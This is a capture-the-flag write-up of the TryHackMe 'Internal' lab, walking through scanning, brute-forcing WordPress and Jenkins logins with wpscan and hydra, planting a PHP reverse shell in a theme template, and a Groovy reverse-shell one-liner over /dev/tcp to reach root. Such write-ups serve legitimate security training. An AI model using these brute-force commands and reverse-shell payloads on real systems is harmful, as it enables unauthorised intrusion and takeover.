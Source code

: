 ```yaml
---
title: Internal Writeup || Tryhackme
date: 2024-11-29 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, linux]     # TAG names should always be lowercase
description: This is a Writeup for Internal Room Which is a part of the offensive pentesting path on Tryhackme
---
```


### Scanning

We will start with scanning our machine, Let's start by adding *internal.thm* to our /etc/hosts file and then start our nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### Enumeration

As we can see there is no much to look through so we will make the http port our first target, we will go to see what we have 

![img-description](/assets/img/Internal_Default.png)
_Default page_

and as we can see it's a default page for the apache server so we will try to fuzz the website directories using *ffuf*

#### Fuzzing

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u 'http://10.10.77.170/FUZZ' -r                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.77.170/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2450ms]
blog                    [Status: 200, Size: 53942, Words: 3347, Lines: 330, Duration: 121ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4459ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4405ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5411ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 77ms]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 77ms]
phpmyadmin              [Status: 200, Size: 10531, Words: 504, Lines: 26, Duration: 1238ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
:: Progress: [4614/4614] :: Job [1/1] :: 529 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

we found a directory called *blog* so we will head to it to see it's contents 

![img-description](/assets/img/Internal_blog.png)
_Blog_

i have found that the website is running on wordpress and i have found a login page which redirected me to the wp login page so i will start by trying a deafult credentials *Username:admin* *Password:admin*

![img-description](/assets/img/Internal_wp.png)
_wplogin_

We will find that it tells us *Error: The password you entered for the username admin is incorrect.* which means that there is a username called admin so we will try to get access to the system with this username

### Gaining access

We will use a tool called *wpscan* to try bruteforcing the password of the admin 

using this command

```
wpscan --url http://internal.thm/blog/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt
```

and we got a hit we now have access to the wp panel

![img-description](/assets/img/Internal_creds.png)
_AdminCreds_

#### Reverse Shell

Now we will go to Appearance > Theme Editor and on the right we will find something called 404 Template which as we can see a php code so we can change the code of this page to a php reverse shell to gain access to the webserver.

you can find the reverse shell here [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![img-description](/assets/img/Internal_rev.png)
_ReverseShell_
 
 you must change your ip address and your port to open a nc listener with the port in the code and after this you can head to *internal.thm/blog/wp-content/themes/twentyseventeen/404.php* to execute our reverse shell and we will find that we got access

 ![img-description](/assets/img/Internal_access.png)
_Access_

#### User Access

Now we want to stabilize our shell so that we can exeplore our system more so we will use this command

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that we will start by seeing the users on the system by viewing the */etc/passwd* file which contains the system users and we will find a user called *aubreanna*

```
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
```

in order to get access to this user i tried to explore the directories first and in the */opt* directory i have found a file named wp-save.txt
and it contains the user creds

 ![img-description](/assets/img/Internal_aubreanna.png)
_aubreanna_

And now we can get the user flag

```
aubreanna@internal:~$ cat user.txt
THM{int************}
```

### Privilege Escalation

We will find an intersting file called jenkins.txt so we will open it and we will find that it tells us that there is a jenkin service running *jenkin* is a standalone application for continuous integration and continuous delivery of software.

 ![img-description](/assets/img/Internal_jenkins.png)
_jenkins_

so in order to see it we must do local port forwarding using this command

```
ssh -L 9999:172.17.0.2:8080 aubreanna@10.10.77.170 
```

and now we can access it by typing in our browser *localhost:9999*

we will find that it is a default jenkins login page 

 ![img-description](/assets/img/Internal_JL.png)
_jenkinsLogin_

Now we can try to brute force it using hydra to see if we can get access, you can intercept the request in burpsuite to get the request and use this command 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9999 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
```

we will find that we got a hit

 ![img-description](/assets/img/Internal_Jc.png)
_jenkinsCreds_

In order to get access we must find a place that we can get a reverse shell from so after some search you can go to Manage Jenkins > Tools and Actions > Script Console

we will find that we can *Type in an arbitrary Groovy script and execute it on the server.* so i will open a listener on my machine and execute the script

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.23.53.56/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

And from the listener we have opened we will find that we got access, when again seeing files in the directories in the */opt* we will find another root with the root password this time

 ![img-description](/assets/img/Internal_RootPass.png)
_Rootpass_

Now we can ssh to the root user and get our root flag

```
root@internal:~# cat root.txt
THM{d0ck3r_********}
```

